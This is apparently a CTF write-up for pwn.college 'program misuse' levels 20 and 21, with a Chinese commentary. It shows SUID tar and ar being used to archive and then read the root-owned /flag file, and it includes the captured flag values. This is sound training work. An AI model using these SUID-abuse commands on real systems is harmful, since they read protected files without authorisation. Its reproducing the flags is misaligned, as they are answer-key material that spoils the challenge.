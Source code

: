 ## level20 Forces you to understand different archive formats!
```
hacker@program-misuse-level-20:~$ sh file.sh
Welcome to ./babysuid_level20!

This challenge is part of a series of programs that
force you to understand different archive formats.

I just set the SUID bit on /usr/bin/tar.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level20) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/tar!
```
`tar`比较常见。
```
hacker@program-misuse-level-20:~$ tar cf /flag.tar /flag
tar: Removing leading `/' from member names
hacker@program-misuse-level-20:~$ ls /
bin   challenge  etc   flag.tar  lib    lib64   media  opt   root  sbin  sys  usr
boot  dev        flag  home      lib32  libx32  mnt    proc  run   srv   tmp  var
hacker@program-misuse-level-20:~$ cat /flag.tar
flag0000400000000000000000000000007114456374677010423 0ustar  rootrootpwn.college{YNojFHYmMjDXxa2MP_mFcpOEIIo.0lM2EDL2QjMyMzW}
hacker@program-misuse-level-20:~$
```
好像都可以直接用cat看压缩包，那么就比较简单了

## level21 Forces you to understand different archive formats!
```
hacker@program-misuse-level-21:~$ sh file.sh
Welcome to ./babysuid_level21!

This challenge is part of a series of programs that
force you to understand different archive formats.

I just set the SUID bit on /usr/bin/ar.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level21) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/ar!
```
`ar`工具，集合很多文档存成一个文档的工具
```
hacker@program-misuse-level-21:~$ ar rs /flag.a /flag
ar: creating /flag.a
hacker@program-misuse-level-21:~$ cat /flag.a
!<arch>
flag/           0           0     0     644     57        `
pwn.college{0vq28yii-jRYCSQP_DtM3bkf8ee.01M2EDL2QjMyMzW}

hacker@program-misuse-level-21:~$
```
